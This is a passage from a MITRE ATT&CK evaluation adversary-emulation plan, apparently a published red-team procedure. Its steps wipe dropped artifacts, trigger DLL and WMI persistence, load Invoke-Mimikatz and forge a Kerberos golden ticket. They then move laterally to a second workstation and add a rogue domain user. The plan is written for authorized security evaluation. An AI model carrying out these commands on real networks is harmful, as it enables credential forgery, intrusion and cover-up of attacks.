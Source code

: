 ### Step 19 - Clean UP

#### 19.A

1. Load `wipe.ps1`
2. Execute `wipe "C:\Windows\System32\m.exe"`

**Note:** There's a known bug here with ETW (Invoke-ReflectivePEInjection patches a function on the fly that ETW invokes) so callback may die and hang

#### 19.B

1. Execute `wipe "C:\Windows\Temp\WindowsParentalControlMigration.tmp"`

#### 19.C

1. Execute `wipe "C:\Windows\Temp\WindowsParentalControlMigration\MITRE-ATTACK-EVALS.HTML"`

### Step 20 - Leverage Persistence

#### 20.A

1. Execute `restart-computer -force`
2. Existing 2 callbacks should die
3. RDP and login to initial victim once it reboots
4. Persistence mechanisms should fire on login (1 for DLL, 1 or more for WMI event subscription)

**Note:** You may need to repeat login process a few times (close and reopen RDP session) for WMI execute to fire

#### 20.B

1. Interact with the SYSTEM PS callback (from WMI)
2. Execute `klist purge`
3. Load `Invoke-Mimikatz.ps1` (available at <https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1>)
4. Execute `invoke-mimikatz -command '"kerberos::golden /domain:dmevals.local /sid:[SID] /rc4:[NTLM HASH] /user:mscott /ptt"'` using the SID and NTLM values from earlier
5. Execute `klist` and confirm ticket is in cache
6. Execute `Enter-PSSession [hostname of second workstation in domain]`
7. Execute `Invoke-Command -ComputerName [hostname of second workstation in domain] -ScriptBlock {net user /add toby "pamBeesly<3"}`

## Liability / Responsible Usage

This content is only to be used with appropriate prior, explicit authorization for the purposes of assessing security posture and/or research.

## Notice

Copyright 2020 The MITRE Corporation

Approved for Public Release; Distribution Unlimited. Case Number 19-03607-2.
